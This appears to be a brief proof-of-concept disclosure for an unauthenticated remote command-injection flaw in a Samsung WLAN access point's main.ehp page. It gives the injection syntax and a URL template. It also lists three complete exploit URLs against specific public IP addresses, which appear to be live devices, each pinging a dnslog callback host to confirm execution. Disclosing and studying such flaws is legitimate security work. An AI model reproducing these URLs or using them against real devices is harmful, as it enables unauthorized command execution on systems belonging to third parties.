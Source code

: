 Samsung WLAN AP, which has a command execution vulnerability, injects commands and executes them via remote without logging in.
main.ehp exists for remote command execution.
For example, execute the ping command through the shell.
Command format:&command1=shell:ping+dnslog
Execute commands directly through the browser without logging into the device.
xxx/main.ehp?cate=test&path=users&command1=shell:ping+dnslog
The following examples verify the existence of the vulnerability：

`http://220.92.38.104/main.ehp?cate=test&path=users&command1=shell:ping+ad1f15a7.dns.1433.eu.org`
./1.png
 
http://112.170.189.230/main.ehp?cate=test&path=users&command1=shell:ping+05c1e934.dns.1433.eu.org
 
http://121.174.124.33/main.ehp?cate=test&path=users&command1=shell:ping+78d29a40.dns.1433.eu.org
